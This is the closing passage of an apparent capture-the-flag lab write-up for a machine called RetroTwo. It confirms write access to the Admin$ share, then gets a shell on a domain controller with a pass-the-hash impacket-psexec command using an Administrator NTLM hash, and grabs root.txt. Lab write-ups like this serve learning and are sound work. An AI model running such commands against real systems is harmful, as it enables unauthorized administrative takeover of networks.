 And yeah we have **READ, WRITE** access to the **Admin$** share and it also says pwned!

Now lets get a shell on DC.

```bash
impacket-psexec -hashes :c06552bdb50ada21a7c74536c231b848 retro2.vl/Administrator@10.129.239.24
```

![image.png](/assets/images/RetroTwo_VL/image%2032.png)

Grabbing our **root.txt** and submitting it !

Rooted!

![image.png](/assets/images/RetroTwo_VL/image%2033.png)

Thanks for reading 😊
